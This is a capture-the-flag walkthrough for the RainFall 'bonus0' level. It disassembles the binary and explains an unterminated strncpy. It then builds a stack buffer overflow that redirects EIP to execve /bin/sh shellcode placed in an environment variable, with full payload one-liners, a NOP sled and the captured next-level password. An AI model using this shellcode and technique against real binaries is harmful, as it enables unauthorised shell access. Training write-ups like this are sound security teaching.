 Usage of the program:

```
bonus0@RainFall:~$ ./bonus0 
 - 
yo
 - 
yoo
yo yoo
```

Objdump :

```nasm
080484b4 <p>:
 80484b4:	55                   	push   %ebp
 80484b5:	89 e5                	mov    %esp,%ebp
 80484b7:	81 ec 18 10 00 00    	sub    $0x1018,%esp
 80484bd:	8b 45 0c             	mov    0xc(%ebp),%eax
 80484c0:	89 04 24             	mov    %eax,(%esp)
 80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>
 80484c8:	c7 44 24 08 00 10 00 	movl   $0x1000,0x8(%esp)
 80484cf:	00 
 80484d0:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 80484d6:	89 44 24 04          	mov    %eax,0x4(%esp)
 80484da:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>
 80484e6:	c7 44 24 04 0a 00 00 	movl   $0xa,0x4(%esp)
 80484ed:	00 
 80484ee:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 80484f4:	89 04 24             	mov    %eax,(%esp)
 80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
 80484fc:	c6 00 00             	movb   $0x0,(%eax)
 80484ff:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 8048505:	c7 44 24 08 14 00 00 	movl   $0x14,0x8(%esp)
 804850c:	00 
 804850d:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048511:	8b 45 08             	mov    0x8(%ebp),%eax
 8048514:	89 04 24             	mov    %eax,(%esp)
 8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>
 804851c:	c9                   	leave  
 804851d:	c3                   	ret    

0804851e <pp>:
 804851e:	55                   	push   %ebp
 804851f:	89 e5                	mov    %esp,%ebp
 8048521:	57                   	push   %edi
 8048522:	53                   	push   %ebx
 8048523:	83 ec 50             	sub    $0x50,%esp
 8048526:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
 804852d:	08 
 804852e:	8d 45 d0             	lea    -0x30(%ebp),%eax
 8048531:	89 04 24             	mov    %eax,(%esp)
 8048534:	e8 7b ff ff ff       	call   80484b4 <p>
 8048539:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
 8048540:	08 
 8048541:	8d 45 e4             	lea    -0x1c(%ebp),%eax
 8048544:	89 04 24             	mov    %eax,(%esp)
 8048547:	e8 68 ff ff ff       	call   80484b4 <p>
 804854c:	8d 45 d0             	lea    -0x30(%ebp),%eax
 804854f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048553:	8b 45 08             	mov    0x8(%ebp),%eax
 8048556:	89 04 24             	mov    %eax,(%esp)
 8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>
 804855e:	bb a4 86 04 08       	mov    $0x80486a4,%ebx
 8048563:	8b 45 08             	mov    0x8(%ebp),%eax
 8048566:	c7 45 c4 ff ff ff ff 	movl   $0xffffffff,-0x3c(%ebp)
 804856d:	89 c2                	mov    %eax,%edx
 804856f:	b8 00 00 00 00       	mov    $0x0,%eax
 8048574:	8b 4d c4             	mov    -0x3c(%ebp),%ecx
 8048577:	89 d7                	mov    %edx,%edi
 8048579:	f2 ae                	repnz scas %es:(%edi),%al
 804857b:	89 c8                	mov    %ecx,%eax
 804857d:	f7 d0                	not    %eax
 804857f:	83 e8 01             	sub    $0x1,%eax
 8048582:	03 45 08             	add    0x8(%ebp),%eax
 8048585:	0f b7 13             	movzwl (%ebx),%edx
 8048588:	66 89 10             	mov    %dx,(%eax)
 804858b:	8d 45 e4             	lea    -0x1c(%ebp),%eax
 804858e:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048592:	8b 45 08             	mov    0x8(%ebp),%eax
 8048595:	89 04 24             	mov    %eax,(%esp)
 8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>
 804859d:	83 c4 50             	add    $0x50,%esp
 80485a0:	5b                   	pop    %ebx
 80485a1:	5f                   	pop    %edi
 80485a2:	5d                   	pop    %ebp
 80485a3:	c3                   	ret    

080485a4 <main>:
 80485a4:	55                   	push   %ebp
 80485a5:	89 e5                	mov    %esp,%ebp
 80485a7:	83 e4 f0             	and    $0xfffffff0,%esp
 80485aa:	83 ec 40             	sub    $0x40,%esp
 80485ad:	8d 44 24 16          	lea    0x16(%esp),%eax
 80485b1:	89 04 24             	mov    %eax,(%esp)
 80485b4:	e8 65 ff ff ff       	call   804851e <pp>
 80485b9:	8d 44 24 16          	lea    0x16(%esp),%eax
 80485bd:	89 04 24             	mov    %eax,(%esp)
 80485c0:	e8 eb fd ff ff       	call   80483b0 <puts@plt>
 80485c5:	b8 00 00 00 00       	mov    $0x0,%eax
 80485ca:	c9                   	leave  
 80485cb:	c3                   	ret
```

Starting from this number of characters in the two respective strings, we observe a segfault appearing:

```nasm
(python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
```

To calculate the offset for rewriting EIP, I generate a string of size 30 using this website:  https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

```nasm
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

The offset is therefore 9.

In the function p(), the program reads from standard input for 4096 characters and tries to replace the `\n` with a `\0`. However, the subsequent strncpy only goes up to 20, so if the line exceeds 20 characters, there won't be a `\0` added.

The idea is to redirect EIP to our shellcode. We can use the environment to have a buffer under control during program execution.

To do this:

```nasm
export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

Then, we launch gdb and search for the address where our environment variable is stored:

```nasm
x/200s environ

...

0xbffff8db:	 ""
0xbffff8dc:	 ""
0xbffff8dd:	 ""
0xbffff8de:	 "/home/user/bonus0/bonus0"
0xbffff8f7:	 "EXPLOIT=1\311\367\341Qh//shh/bin\211\343\260\v̀"
0xbffff915:	 "SHELL=/bin/bash"
0xbffff925:	 "TERM=xterm-256color"
0xbffff939:	 "SSH_CLIENT=10.0.2.2 52034 4242"
0xbffff958:	 "SSH_TTY=/dev/pts/0"
0xbffff96b:	 "USER=bonus0"

(gdb) x/s 0xbffff8f7
0xbffff8f7:	 "EXPLOIT=1\311\367\341Qh//shh/bin\211\343\260\v̀"
```

Our exploit is thus at this address. To obtain the precise byte of the shellcode, we need to pass the values EXPLOIT=, so we'll end up at `0xbffff8f7 + 8`, which is `0xbffff8ff`.

To confirm this, we can see that the first bytes of the shellcode (31 c9 f7...) are indeed located at this address:

```nasm
(gdb) x/50x 0xbffff8f7
0xbffff8f7:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
0xbffff8ff:	0x31	0xc9	0xf7	0xe1	0x51	0x68	0x2f	0x2f
0xbffff907:	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e	0x89
0xbffff90f:	0xe3	0xb0	0x0b	0xcd	0x80	0x00	0x53	0x48
0xbffff917:	0x45	0x4c	0x4c	0x3d	0x2f	0x62	0x69	0x6e
0xbffff91f:	0x2f	0x62	0x61	0x73	0x68	0x00	0x54	0x45
0xbffff927:	0x52	0x4d
```

So, precisely here is where we need to redirect EIP.

Let's try a payload in the form (line1 = "A" * 20) (line2 = "A" * 9 + addr(4 bytes) + "A" * 7)

```nasm
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\xff\xf8\xff\xbf" + "A" * 7'; cat)  | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���

Segmentation fault (core dumped)
```

Oops 🙂

After some adjustments, I eventually found the precise location to be at `0xbffff90f`, which is 16 bytes further:

```nasm
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\x0f\xf9\xff\xbf" + "A" * 7'; cat)  | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAAA���AAAAAAA���
whoami
bonus1
```

To avoid this kind of error, always add a few NOP instructions to ensure that you land roughly in the right place with an acceptable margin of error. For example, if we add NOPs before our shellcode in our environment variable, we indeed end up directly on it with `0xbffff8ff`:

```nasm
bonus0@RainFall:~$ export EXPLOIT=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\xff\xf8\xff\xbf" + "A" * 7'; cat)  | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���

whoami
bonus1
```

here's the flag:

```
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```